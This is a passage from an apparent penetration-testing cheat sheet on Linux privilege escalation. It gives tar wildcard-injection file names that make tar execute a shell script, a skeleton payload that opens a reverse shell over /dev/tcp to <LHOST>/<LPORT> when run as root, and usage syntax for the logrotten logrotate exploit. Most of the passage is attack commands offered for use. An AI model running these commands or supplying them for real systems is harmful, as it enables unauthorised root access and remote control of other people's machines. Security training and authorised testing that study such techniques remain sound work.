 ```c
$ capsh --print
```

### Linux Wildcards

> https://www.defensecode.com/public/DefenseCode\_Unix\_WildCards\_Gone\_Wild.txt

With the command `touch -- --checkpoint=1` will be a file created. Why? Because the `--` behind the command `touch` is telling touch, that there's option to be wait for. Instead of an option, it creates a file, named `--checkpoint=1`.

```c
$ touch -- --checkpoint=1
```

or

```c
$ touch ./--checkpoint=1
```

So after creating the `--checkpoint=1` file, i created another file, which executes a shell script.

```c
$ touch -- '--checkpoint-action=exec=sh shell.sh'
```

or

```c
$ touch ./--checkpoint-action=exec=<FILE>
```

To delete a misconfigured file, put a `./` in front of it.

```c
$ rm ./'--checkpoint-action=exec=python script.sh'
```

### logrotten

> https://github.com/whotwagner/logrotten

#### Skeleton Payload

```c
if [ `id -u` -eq 0 ]; then ( /bin/sh -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1 ); fi
```

#### Syntax

**If "create"-option is set in logrotate.cfg**

```c
$ ./logrotten -p ./payloadfile /tmp/log/pwnme.log
```

**If "compress"-option is set in logrotate.cfg**

```c
$ ./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
```

